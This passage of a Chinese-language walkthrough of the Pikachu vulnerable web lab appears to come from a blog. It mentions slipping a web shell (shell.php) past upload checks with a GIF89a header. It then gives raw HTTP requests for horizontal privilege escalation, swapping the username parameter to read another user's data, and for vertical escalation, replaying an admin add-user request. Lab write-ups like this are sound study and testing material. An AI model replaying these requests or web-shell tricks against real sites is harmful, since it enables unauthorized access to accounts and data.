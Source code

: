 前两种单独或结合起来都没用了，这次给shell.php内容中增加图片文件头GIF89a，再上传

![pikachu75](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu75.png)

这种后门文件没办法通过访问触发了，需要配合解析漏洞或者文件包含使用

# Over Permission

## 水平越权

![pikachu76](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu76.png)

开启抓包点击查看个人信息按钮

![pikachu77](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu77.png)

该请求数据包内容如下

```http
GET /vul/overpermission/op1/op1_mem.php?username=lucy&submit=%E7%82%B9%E5%87%BB%E6%9F%A5%E7%9C%8B%E4%B8%AA%E4%BA%BA%E4%BF%A1%E6%81%AF HTTP/1.1
Host: 172.26.239.122
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.26.239.122/vul/overpermission/op1/op1_mem.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=jdco7efq49sd079f9m6b68c6fq
Connection: close
```

尝试修改username字段为其他用户例如：vince，即可水平越权，使用lucy账户查看vince用户的信息

![pikachu78](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu78.png)

## 垂直越权

先使用超级管理员进行登录

![pikachu79](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu79.png)

点击添加用户，填入对应信息，进行抓包，对应请求数据包如下，暂时发到Repeater

```http
POST /vul/overpermission/op2/op2_admin_edit.php HTTP/1.1
Host: 172.26.239.122
Content-Length: 112
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.26.239.122
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.26.239.122/vul/overpermission/op2/op2_admin_edit.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=jdco7efq49sd079f9m6b68c6fq
Connection: close
username=hacker&password=hacker&sex=hacker&phonenum=hacker&email=hacker&address=hacker&submit=%E5%88%9B%E5%BB%BA
```